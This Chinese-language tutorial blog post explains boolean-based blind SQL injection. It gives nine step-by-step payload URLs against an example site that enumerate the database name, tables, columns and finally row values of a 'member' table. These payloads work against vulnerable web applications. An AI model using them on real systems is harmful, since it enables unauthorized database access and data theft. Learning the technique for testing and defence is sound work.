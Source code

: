 ```yaml
---
title: SQL注入(3)——布尔盲注
description: SQL注入是一种是一种常见的网络安全漏洞攻击手段。
pubDate: 07 30 2025
draft: false
categories:
- 网络安全
tags:
- SQL注入
- Web安全
- Kaku
---
```


## 布尔盲注

布尔盲注，与普通注入的区别在于“盲注”。在注入语句后，盲注不是返回查询到的结果，而只是返回查询是否成功，**即：返回查询语句的布尔值**。因此，盲注要盲猜试错。由于只有返回的布尔值，往往查询非常复杂，一般使用脚本来穷举试错。

例如一个网址http://abc.cn/new_list.php?id=1，当我们在后面网址后面加上`and 1=1 或 and 1=2`来判断页面的回显情况，当and 1=1页面不变,而and 1=2时发生变化，那这里就很可能是注入点，由于布尔盲注太过繁琐我们可以运用sqlmap进行注入爆破，这里不做讲解,这里只讲解具体爆破相关的SQL。

布尔盲注大概分为以下九步:

1. 爆库名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length(database())=10
   ```

2. 根据库名长度爆库名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr(database(),1,1)='s'
   ```

3. 对当前库爆表数量
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select COUNT(*) from information_schema.tables where table_schema=database())=2
   ```

4. 根据库名和表数量爆表名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6
   ```

5. 根据表名长度爆表名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='m'
   ```

6. 对表爆列数量
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='member')=3
   ```

7. 根据表名和列数量爆列名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'member' limit 0,1),1))=4
   ```

8. 根据列名长度爆列名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr((select column_name from information_schema.columns where table_schema=database() and table_name='member' limit 1,1),1,1)='n'
   ```

9. 根据列名爆数据值
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select substr(name,1,1) from stormgroup.member limit 0,1)='m'
   ```

